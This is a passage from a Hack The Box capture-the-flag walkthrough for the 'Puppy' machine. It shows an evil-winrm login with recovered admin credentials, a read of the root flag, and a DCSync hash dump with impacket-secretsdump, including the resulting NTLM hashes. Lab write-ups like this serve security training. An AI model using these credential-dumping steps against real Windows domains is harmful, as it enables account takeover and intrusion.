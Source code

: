 Now, we log in using the decrypted credentials and grep for root.

```
┌──(kali㉿kali)-[~/HTB-machine/puppy/my-share]
└─$ evil-winrm -i $IP -u steph.cooper_adm  -p FivethChipOnItsWay2025!
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Desktop> type ..\..\Administrator\Desktop\root.txt
dabcf54bba7de2b1d31b132d40938f62
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Desktop> 

```

### DCSync

If we check, we can see that the user `steph.cooper_adm` has `DCSync` rights on the Domain Controller, so we dump all hashes.


<img src="assets/HTB/Puppy/image4.png" alt="Error loading">

```
impacket-secretsdump 'PUPPY.HTB/steph.cooper_adm:FivethChipOnItsWay2025!'@$IP 
```
```
┌──(kali㉿kali)-[~/HTB-machine/puppy/my-share]
└─$ impacket-secretsdump 'PUPPY.HTB/steph.cooper_adm:FivethChipOnItsWay2025!'@$IP 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```